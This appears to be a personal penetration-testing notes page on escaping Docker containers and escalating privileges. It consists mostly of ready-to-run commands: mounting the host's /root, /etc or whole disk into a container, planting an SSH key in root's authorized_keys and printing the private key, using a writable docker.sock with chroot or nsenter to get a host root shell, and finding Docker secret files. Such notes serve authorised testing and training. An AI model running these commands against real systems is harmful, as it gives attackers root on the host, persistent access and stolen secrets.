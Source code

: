 ```yaml
---
category: Uncategorized
tags: []
---
```

https://gtfobins.github.io/gtfobins/docker/


---
#### Docker.sock
```
find / -name "docker.sock" 2>/dev/null
```

>/run/docker.sock


---

[https://www.hackingarticles.in/docker-privilege-escalation/](https://www.hackingarticles.in/docker-privilege-escalation/)

![[Pasted image 20221115144437.png]]

![[Pasted image 20221115144455.png]]

```bash - kali
docker run -v /root:/mnt -it alpine
```

```bash - kali
docker run -v /etc/:/mnt -it alpine
```

```bash - kali
cd /mnt
```

```bash - kali
ls
```

#### Privileged

When a docker container is running in privileged mode and root access is acquired, escaping the container is then possible. We try to mount the / directory of the host, inside the docker container. But first, we need to execute the following command, in order to get the name of the partition that we are going to mount.

```bash - target
lsblk
```

![[Pasted image 20221115144518.png]]

Let's try to mount the partition sda2 into the directory /mnt .

```bash - target
mount /dev/sda2 /mnt -o loop6
```

```bash - target
ls -l /mnt
```

![[Pasted image 20221115144531.png]]

The / directory is mounted successfully. We create SSH keys for the host user root .

```bash - target
ssh-keygen -f /mnt/root/.ssh/id_rsa -P ""
```

```bash - target
cp /mnt/root/.ssh/id_rsa.pub /mnt/root/.ssh/authorized_keys
```

```bash - target
cat /mnt/root/.ssh/id_rsa
```

We store the key in a file locally and name it id_rsa and give the appropriate permissions.

[[Port 22 - SSH  ~#id_rsa]]

![[Pasted image 20221115144550.png]]

#### /var/run/docker.sock is writable
```bash - kali
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
```

```bash - kali
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

#### Secrets
Try to see Docker secret locations or names:
```
$ docker secret ls
```

Linux Docker Secrets Locations:
```
/run/secrets/<secret_name>
```

Windows Docker Secrets Locations:
```
C:\ProgramData\Docker\internal\secrets
```

```
C:\ProgramData\Docker\secrets
```


---

Notice the hidden .dockerenv file.  Given that and the host name "0873e8062560", we are likely inside of a docker container.

![[Pasted image 20220331134954.png]]

```bash - target
fdisk -l
```

![[Pasted image 20220331135403.png]]

```bash - target
mkdir /mnt/own
```

```bash - target
mount /dev/sda1 /mnt/own
```

```bash - target
cd /mnt/own
```

```bash - target
cd root
```

```bash - target
ls -lah
```



